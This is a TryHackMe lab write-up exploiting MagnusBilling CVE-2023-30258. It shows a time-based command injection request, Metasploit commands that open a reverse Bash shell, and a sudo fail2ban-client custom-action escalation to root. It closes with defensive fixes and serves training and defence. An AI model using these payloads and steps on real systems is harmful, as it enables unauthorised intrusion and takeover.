








# Billing — TryHackMe write-up

**Platform:** [TryHackMe](https://tryhackme.com/room/billing)

**Difficulty:** Easy

**Focus:** web enumeration, blind command injection, Metasploit, `sudo` privilege escalation

## Summary

The web service exposed MagnusBilling. Nuclei identified CVE-2023-30258, and a time-based request to `icepay.php` confirmed unauthenticated command injection. I used Metasploit's Unix Command target to obtain a shell as `asterisk`. That account could run `fail2ban-client` with `sudo` and no password; loading a configuration from a writable directory caused a custom action to run as root. I then verified root access with `id`.

## 1. Reconnaissance

I scanned all TCP ports with service detection and Nmap's default scripts:

```bash
TARGET='10.80.189.205' # Replace with the current room IP
nmap -Pn -sV -sC -p- --open "$TARGET"
```



| Port     | Service          | Lead                                   |
| -------- | ---------------- | -------------------------------------- |
| 22/tcp   | SSH              | Revisit if I find credentials.         |
| 80/tcp   | Apache HTTP      | Inspect the MagnusBilling application. |
| 3306/tcp | MariaDB          | Authentication required.               |
| 5038/tcp | Asterisk Manager | Note for later enumeration.            |

The HTTP service redirected to `/mbilling/`, where I found a login page.



I enumerated web paths and ran Nuclei while browsing the application:

```bash
feroxbuster -u "http://$TARGET/" \
  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-big.txt
nuclei --target "http://$TARGET/"
```

Nuclei flagged **CVE-2023-30258** at `/mbilling/lib/icepay/icepay.php`. A scanner result is a lead, so I tested the behavior manually before using it.



## 2. Command injection and initial access

I sent a request to the reported endpoint through Burp Suite and moved it to Repeater.



The vulnerable `democ` parameter is included in a shell command. I supplied `sleep 5` between shell separators to test execution without relying on command output in the HTTP response:

```http
GET /mbilling/lib/icepay/icepay.php?democ=;sleep+5; HTTP/1.1
Host: 10.80.189.205
```

The response took about five seconds, consistent with the injected command running on the server. This is a **blind command injection**: the response did not display the command's output. The [original vulnerability advisory](https://eldstal.se/advisories/230327-magnusbilling.html) describes the same time-based verification method.



I then used the Metasploit module. Its default PHP Meterpreter payload connected but repeatedly died in this lab, so I selected the Unix Command target and its compatible Bash payload:

```text
msfconsole
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
set RHOSTS 10.80.189.205
set LHOST <YOUR_VPN_IP>
set TARGET 1
set PAYLOAD cmd/unix/reverse_bash
run
```

The session opened as `asterisk` (`uid=1001`). Metasploit's [module source](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/magnusbilling_unauth_rce_cve_2023_30258.rb) lists this payload for its Unix Command target.



While enumerating the application, I found a configuration reference to `/etc/asterisk/res_config_mysql.conf`, which held database credentials. Those credentials did not advance this attack path. The `asterisk` account could already read `/home/magnus/user.txt`.

## 3. Privilege escalation

I checked the account's `sudo` permissions:

```bash
sudo -l
```

The output allowed `asterisk` to run `/usr/bin/fail2ban-client` as root without a password.



Fail2Ban reads jail and action definitions from its configuration directory. The `-c` option points the client at another directory, which mattered because I could write a copy in `/tmp` but could not edit `/etc/fail2ban/`.

```bash
rsync -av /etc/fail2ban/ /tmp/fail2ban/
```

I made a script for Fail2Ban's start action. It copies Bash and sets the SUID bit on the copy. Mode `4755` grants the setuid behavior without making the binary writable by everyone.

```bash
cat > /tmp/script <<'EOF'
#!/bin/sh
cp /bin/bash /tmp/bash
chmod 4755 /tmp/bash
EOF
chmod +x /tmp/script
```

Next, I defined the action and enabled a jail that uses it. `actionstart_on_demand = false` requests execution when the jail starts instead of waiting for its first ban.

```bash
touch /tmp/fail2ban-test.log

cat > /tmp/fail2ban/action.d/custom-start-command.conf <<'EOF'
[Definition]
actionstart = /tmp/script
actionstart_on_demand = false
EOF

cat >> /tmp/fail2ban/jail.local <<'EOF'

[my-custom-jail]
enabled = true
filter = sshd
backend = polling
logpath = /tmp/fail2ban-test.log
action = custom-start-command
EOF

fail2ban-client -c /tmp/fail2ban/ -t
sudo fail2ban-client -c /tmp/fail2ban/ -v restart
```

The restart produced the SUID copy. The `-p` flag tells Bash to preserve its effective user ID:

```bash
ls -l /tmp/bash
/tmp/bash -p
id
# uid=1001(asterisk) ... euid=0(root)
```

`euid=0(root)` and access to `/root/root.txt` was confirmed.



## Findings and fixes

| Observation                                                                   | Why it mattered                                                                                          | Defensive lesson                                                                              |
| ----------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| MagnusBilling exposed CVE-2023-30258 in `icepay.php`.                         | An unauthenticated request executed an OS command as the web service account.                            | Update to a fixed version and remove the vulnerable demo code.                                |
| The application stored database credentials in a readable configuration file. | A compromised service account could inspect another secret, even though I did not use it for escalation. | Restrict configuration file access and rotate exposed credentials after compromise.           |
| `asterisk` could run `fail2ban-client` as root without a password.            | A writable configuration supplied a command that ran with root privileges.                               | Avoid unrestricted `sudo` access to tools that load configuration or execute action commands. |

The key lesson was to verify the scanner finding with a controlled request, then check what the compromised service account could run through `sudo`.

## References

- [TryHackMe: Billing](https://tryhackme.com/room/billing)
- [CVE-2023-30258: original advisory](https://eldstal.se/advisories/230327-magnusbilling.html)
- [Metasploit: MagnusBilling exploit module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/magnusbilling_unauth_rce_cve_2023_30258.rb)
- [Fail2Ban jail and action configuration](https://github.com/fail2ban/fail2ban/blob/master/man/jail.conf.5)
